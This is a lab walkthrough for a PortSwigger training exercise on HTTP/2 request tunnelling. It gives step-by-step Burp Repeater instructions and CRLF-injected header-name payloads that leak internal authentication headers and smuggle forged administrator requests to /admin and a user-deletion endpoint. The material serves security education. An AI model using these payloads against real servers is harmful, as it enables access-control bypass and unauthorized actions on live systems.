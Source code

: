 # Bypassing access controls via HTTP/2 request tunnelling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-bypass-access-controls-via-request-tunnelling) is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming header names.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to request tunnelling. 

## Reproduction and proof of concept

1. Send the `GET /` request to Burp Repeater. Expand the Inspector's Request Attributes section and change the protocol to HTTP/2.
2. Using the Inspector, append an arbitrary header to the end of the request and try smuggling a Host header in its name as follows:

Name
```text
foo: bar\r\n
Host: abc
```

Value
```text
xyz
```

![HTTP header smuggling](../../_static/images/smuggling20.png)
    
Observe that the error response indicates that the server processes your injected host, confirming that the lab is vulnerable to CRLF injection via header names.

3. In the browser, notice that the lab's search function reflects your search query in the response. Send the most recent `GET /?search=whatever` request to Burp Repeater and upgrade it to an HTTP/2 request.
4. In Burp Repeater, right-click on the request and select Change request method. Send the request and notice that the search function still works when you send the search parameter in the body of a POST request.
5. Add an arbitrary header and use its name field to inject a large Content-Length header and an additional search parameter as follows:

Name
```text
foo: bar\r\n
Content-Length: 500\r\n
\r\n
search=x
```

Value
```text
xyz
```

6. In the main body of the request (in the message editor panel) append arbitrary characters to the original search parameter until the request is longer than the smuggled `Content-Length` header.
7. Send the request and observe that the response now reflects the headers that were appended to your request by the front-end server:

![HTTP header smuggling](../../_static/images/smuggling21.png)

Notice that these appear to be headers used for client authentication.

8. Change the request method to HEAD and edit your malicious header so that it smuggles a request for the admin panel. Include the three client authentication headers, making sure to update their values as follows:

Name
```text
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 8870149995405902\r\n
\r\n
```

Value
```text
xyz
```

9. Send the request and observe that you receive an error response saying that not enough bytes were received. This is because the `Content-Length` of the requested resource is longer than the tunnelled response you're trying to read.

![HTTP header smuggling](../../_static/images/smuggling22.png)

10. Change the :path pseudo-header so that it points to an endpoint that returns a shorter resource. In this case, you can use `/login`.
11. Send the request again. You should see the start of the tunnelled HTTP/1.1 response nested in the body of your main response.
12. In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`), then update the path in your tunnelled request accordingly and resend it. Although you will likely encounter an error response, Carlos is deleted and the lab is solved.

![HTTP header smuggling](../../_static/images/smuggling23.png)

Name
```text
foo: bar\r\n
\r\n
GET /admin/delete?username=carlos HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 8870149995405902\r\n
\r\n
```

Value
```text
xyz
```

![HTTP header smuggling](../../_static/images/smuggling24.png)

## Exploitability

An attacker will need to access the admin panel at `/admin` as the administrator user and delete carlos. 

_Note: This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the Allow HTTP/2 ALPN override option and manually change the protocol to HTTP/2 using the Inspector. Please note that this feature is only available from Burp Suite Professional / Community 2021.9.1._
